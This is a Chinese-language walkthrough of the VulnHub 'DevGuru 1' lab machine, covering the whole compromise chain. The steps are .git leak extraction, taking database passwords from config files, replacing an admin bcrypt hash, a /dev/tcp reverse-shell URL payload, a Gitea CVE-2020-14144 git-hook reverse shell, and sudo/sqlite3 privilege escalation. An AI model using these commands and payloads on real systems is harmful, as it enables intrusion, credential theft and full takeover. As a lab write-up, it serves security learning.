



下载地址：https://www.vulnhub.com/entry/devguru-1,620/

## 信息收集


开放了22，80，8585端口

接下来详细信息扫描


发现`.git`泄露

指定漏洞脚本扫描


## git泄露利用


https://github.com/lijiejie/GitHack

```python
python3 GitHack.py http://172.16.31.7/.git
```


在`config` 目录下发现 `database.php` 数据库文件，打开文件，发现默认密码


```php
'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ],
```

查看刚才获得的源码，发现存在 `adminer` 页面，这个页面可以登录数据库


在 `octoberdb` 库中的 `backend_users` 表找到登录用户名和密码，但是看不出密码的加密算法


通过搜索引擎搜索上述密码的前几位 `$2y$10`，找到 https://www.cnblogs.com/DeeLMind/p/7450124.html 网页，其中提到了一个算法


同时发现该 [octobercms](https://octobercms.com/) 使用 `Laravel`PHP 框架，而 `Laravel` 的加密算法使用的是 `Bcrypt 哈希算法`，与上一条提示的密码算法一致




在 [https://bcrypt-generator.com](https://bcrypt-generator.com/) 中输入想要加密的内容，生成密文


将数据库中的密文更换成新密文


使用 `frank/123456` 登录后台，成功


发现存在写代码的地方，估计可以直接写代码反弹 shell


## 反弹shell

反弹shell，先开启监听

```
nc -lvvnp 2233
```

访问URL，实现反弹

注意reverse shell语句中的&要替换为URL编码%26

```bash
http://172.16.31.7/about?0=/bin/bash -c 'bash -i >%26 /dev/tcp/172.16.31.4/2233 0>%261'
```

成功getshell


获取一个正常点的shell环境


## linpeas信息收集

https://github.com/peass-ng/PEASS-ng

linpeas是一个流行的脚本,用于在渗透测试中进行特权升级和系统枚举。


Kali中开启服务


靶机接收并执行

```bash
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.log
```


在 /var/backups 目录下的 app.ini.bak 文件中，发现一处敏感信息




```bash
[database]
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
PASSWD              = UfFPTF8C8jjxVF2m
```

## **Gitea漏洞(CVE-2020-14144)利用**

 Gitea 版本为1.12.5 ，我们借助 exploit-db 查找相关漏洞


```bash
searchsploit Gitea | grep 1.12.5
```


这是一个 RCE 脚本，我们查看具体内容，发现只要提供目标IP、gitea后台用户名及密码、接收反弹 shell 的机器IP及监听端口，即可利用


登录gitea数据库


在 user 表中同样发现账户 frank, 修改后使用加密Bcrypt算法


使用利用脚本发现抱错


阅读 49571.py 脚本开头给出的PoC演示文章：[Exploiting CVE-2020-14144 - GiTea Authenticated Remote Code Execution using git hooks · Podalirius](https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/)


可以发现利用的原理就是在 Settings -> Git Hooks 中写入shell反弹语句

```bach
#!/bin/bash
bash -i >& /dev/tcp/172.16.31.4/2345 0>&1 &
```


继续阅读演示文章，告诉我们需要向仓库提交一次代码，然后就可以 reverse shell


然后直接进行提交


成功 reverse shell


## 提权

### sqlite3利用

查看能执行的sudo命令

```bash
sudo -l
```

发现一个sqlite3可以执行，但是权限是非root用户

同时，frank用户无法直接以root身份运行/bin/bash


在 [sqlite3 | GTFOBins](https://gtfobins.github.io/gtfobins/sqlite3/) 上查阅 sqlite3 相关信息

```bash
sudo sqlite3 /dev/null '.shell /bin/sh'
```


查看sudo版本


sudo版本为 1.8.21p2，存在被利用的可能

在 HackTricks 上查阅相关信息：[Linux Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-less-than-v1.28)



### sudo结合sqlite3提权

```bash
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
```


